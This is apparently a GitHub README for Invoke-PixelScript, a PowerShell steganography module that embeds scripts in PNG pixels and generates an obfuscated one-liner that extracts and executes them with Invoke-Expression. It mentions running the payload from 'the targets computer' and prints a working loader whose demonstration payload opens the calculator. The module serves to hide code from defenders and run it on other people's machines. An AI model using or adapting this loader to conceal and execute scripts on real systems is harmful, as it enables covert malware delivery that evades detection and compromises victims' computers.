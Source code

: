 
# Invoke-PixelScript

based on original work by: [Invoke-PsImage](https://github.com/peewpw/Invoke-PSImage)

Invoke-PixelScript is a PowerShell module designed to embed PowerShell scripts within the pixels of an image file (PNG). This module provides a way to execute hidden scripts from these images, effectively using steganography to conceal and transport PowerShell scripts.

## Features

- **Embed Scripts in Images**: Hide PowerShell scripts in the least significant bits of image pixels.
- **Execute from Image**: Generate a one-liner to execute the embedded script directly from the image.

## Prerequisites

Before you begin using Invoke-PixelScript, ensure you have PowerShell installed on your system. This module also requires the .NET System.Drawing assembly, typically available by default in Windows environments. 

## Installation

```powershell
# Install the module
Install-Module PsInPic

# Import the module
Import-Module PsInPic
```

## Usage

### Embedding a Script into an Image

To embed a PowerShell script into an image, you can use the `Invoke-PixelScript` function.

```
PARAMETERS

$Script   - path to .ps1 script you want to embed 
$Image    - path to the image you plan to use
$Out      - path to the output file
$ExecPath - path to where you anticipate running the script from the targets computer 
            (can be altered whenever and will default to $Out if nothing is provided)
```

```powershell
# Embed a script into an existing image and save the output
$payload = Invoke-PixelScript -Script "C:\path\to\script.ps1" -Image "C:\path\to\image.png" -Out "C:\path\to\output.png" -ExecPath "C:\path\to\output.png"
```

### Generating the Execution Command

After embedding, the function returns a PowerShell one-liner that you can use to execute the script directly from the image:

```powershell
# Execute the embedded script from the image
Invoke-Expression $payload
```

### EXAMPLE

If you right click and save this image to your downloads folder as `out.png` and then run that powershell code below it you will open the calculator
(smaller the image the faster it is)

<img src="https://github.com/Unit-259/PsInPic/blob/main/out.png" width="400" alt="Description of Image">

```powershell
sal a New-Object;Add-Type -A System.Drawing;
$g=a System.Drawing.Bitmap("$env:userprofile\downloads\out.png");
$o=a Byte[] 7001382;
(0..2821)|%{
foreach($x in 0..2480) {
$p=$g.GetPixel($x, $_);
$o[$_*2481+$x]=[math]::Floor(($p.R -band 0x0F)*16) + ($p.G -band 0x0F);
}
};
$g.Dispose();
IEX([System.Text.Encoding]::ASCII.GetString($o[0..3]))
```

## Contributing

Contributions to the Invoke-PixelScript project are welcome! Please feel free to fork the repository, make your changes, and submit a pull request.

